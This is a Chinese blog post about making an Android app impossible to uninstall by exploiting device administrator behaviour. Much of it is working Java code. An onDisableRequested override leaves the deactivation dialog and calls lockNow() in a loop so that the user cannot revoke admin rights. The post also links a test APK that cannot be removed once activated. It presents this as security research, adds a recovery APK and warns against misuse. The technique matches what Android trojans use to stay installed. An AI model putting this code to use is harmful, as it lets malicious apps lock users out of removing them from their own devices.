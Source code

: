 #编写一个无法卸载的App – 设备管理器漏洞

原文出处： [BQ Zhang（@2BAB）](http://2bab.me/2015/02/09/app-cannot-be-uninstalled/)

前两天某朋友发现手机有个app无法卸载，后知其因设备管理器激活导致，遂去尝试取消，但却在取消那刻卡机。反复折腾之后，只能重刷。后来他发了一篇关于设备管理器bug的文章给我，便有了如下一番折腾。

##尝鲜

文章[《Android 学习 设备管理器勾选后不能再取消了》](http://androidmaster.iteye.com/blog/2035381)（作者：带个回家）大致意思是：

>继承 DeviceAdminReceiver 重写 onDisableRequested(Context context, Intent intent) 即可达到目的。
```java
@Override
public CharSequence onDisableRequested(Context context, Intent intent) {
    // 这里处理 不可编辑设备。
    Intent intent2 = new Intent(context, NoticeSetting.class);
    intent2.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    context.startActivity(intent2);
    context.stopService(intent);// 是否可以停止
    return ""; // "这是一个可选的消息，警告有关禁止用户的请求";
    }
```

在此之前，我并没有接触过设备管理器的功能，参考了 API Guides 的 [Device Administration ](http://developer.android.com/guide/topics/admin/device-admin.html)，以及 [DeviceAdminReceiver](http://developer.android.com/reference/android/app/admin/DeviceAdminReceiver.html) 的 API 后，试着写了一个跟上述文章一样的 app，4.4 & 5.0均测试失败，可以正常取消激活。

##再战

搜索，找到[《Android设备管理器漏洞》](http://blog.csdn.net/androidsecurity/article/details/9124747)（作者：Jack_Jia）另一篇讲解此问题的文章。文章提到：

>如果想在设备管理器列表中”隐身“，只要不注册 `android.app.action.DEVICE_ADMIN_ENABLED` 广播就行。
也就是不给 intent-filter 标签设置该 action。

```xml
<receiver
    android:name=".MyDeviceReceiver"
    android:description="@string/receiver_description"
    android:label="@string/app_name"
    android:permission="android.permission.BIND_DEVICE_ADMIN">
    <meta-data
        android:name="android.app.device_admin"
        android:resource="@xml/device_manager_policies" />
    <intent-filter>
 
    </intent-filter>
</receiver>
```

4.4 & 5.0测试失败，设备管理器无法激活（代码激活不会弹出，设备管理器又找不到）。

##三战

继续搜索，发现百度安全实验室一篇文章[《Android设备管理器漏洞2》](http://blog.csdn.net/androidsecurity/article/details/39962571)。文章提到：

> 已激活设备管理器权限的手机木马利用该漏洞，可以在设置程序的设备管理器列表中隐藏，这样用户就无法通过正常途径取消该手机木马的设备管理器权限，从而达到无法卸载的目的。Android4.2版本以上系统已经修复该漏洞。    
…  
通过调用stopAppSwitch()方法，系统保证在进入取消设备管理器界面后，5秒内不会进行Activity的切换。   
…   
onDisableRequested函数满足以下条件即可：    
1、返回内容不能为空，这样才可以使设备管理器弹出取消激活设备管理器警示信息 Dialog。  
2、通过Activity切换的方式使设备管理器弹出的警示信息Dialog消失。使用户无法操作Dialog。
如果做到以上两点，程序即可成功阻止用户取消激活设备管理器操作。

故，只要在 onDisableRequested 方法中，让用户在取消激活时5s内无法操作界面，然后采取 Activity 切换的方法即可绕开取消激活的步骤。这里为了测试直观并且试一试设备管理器的 api，采用了百度提供的连续锁屏法。测试环境为5.0。 
``` java
public CharSequence onDisableRequested(Context context, Intent intent) {                                            
 
    //跳离当前询问是否取消激活的 dialog                                                                                          
    Intent outOfDialog = context.getPackageManager().getLaunchIntentForPackage("com.android.settings");             
    outOfDialog.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);                                                            
    context.startActivity(outOfDialog);                                                                             
 
    //调用设备管理器本身的功能，每 100ms 锁屏一次，用户即便解锁也会立即被锁，直至 7s 后                                                                
    final DevicePolicyManager dpm = (DevicePolicyManager) context.getSystemService(Context.DEVICE_POLICY_SERVICE);  
    dpm.lockNow();                                                                                                  
    new Thread(new Runnable() {                                                                                     
        @Override                                                                                                   
        public void run() {                                                                                         
            int i = 0;                                                                                              
            while (i < 70) {                                                                                        
                dpm.lockNow();                                                                                      
                try {                                                                                               
                    Thread.sleep(100);                                                                              
                    i++;                                                                                            
                } catch (InterruptedException e) {                                                                  
                    e.printStackTrace();                                                                            
                }                                                                                                   
            }                                                                                                       
        }                                                                                                           
    }).start();                                                                                                     
 
    return "";                                                                                                      
}
```
1. 安装后打开直接跳转激活界面：
![](http://jbcdn2.b0.upaiyun.com/2015/09/9e39d10a80403504129cf53954b61fc9.png)
2. 一旦激活则无法正常卸载
![](http://jbcdn2.b0.upaiyun.com/2015/09/f5d6aa211d336e325c883d00ef1a1471.png)

3. 进入设备管理器界面
![](http://jbcdn2.b0.upaiyun.com/2015/09/9bc579ca0686901c91a08025f1450144.png)
4. 尝试取消激活
![](http://jbcdn2.b0.upaiyun.com/2015/09/7078c356ebb3e4d486f4006875bd2789.png)
5. 强制进入锁屏
![](http://jbcdn2.b0.upaiyun.com/2015/09/55c0e66d9b36af97eb2651f93c00eac8.png)

至此，用户用普通方法无法卸载该app。测试使用某数字软件可以卸载，具体步骤：在数字软件的软件卸载功能中卸载Trick，此时提示取消激活，跳转到设备管理器界面取消激活，引发锁屏，强制锁屏7s结束后，切回数字软件，你会发现出现了取消激活的dialog，点击取消成功。

而文章开头提到的流氓软件，实则是跳转到一个所有按钮无效的自定义全屏界面（不是我这样跳到设置界面），使用数字软件无法解决问题。

##总结

日后看到设备管理器激活申请定要小心三分，本文提及内容请勿不正当使用。

##相关下载

[源码Gist](https://gist.github.com/2BAB/786513de79b7bfd82c3f)

[测试APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-DeviceAdminTrick.apk)，安装后激活则无法卸载。

[恢复APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-recovery.apk)，覆盖安装后可顺利取消激活。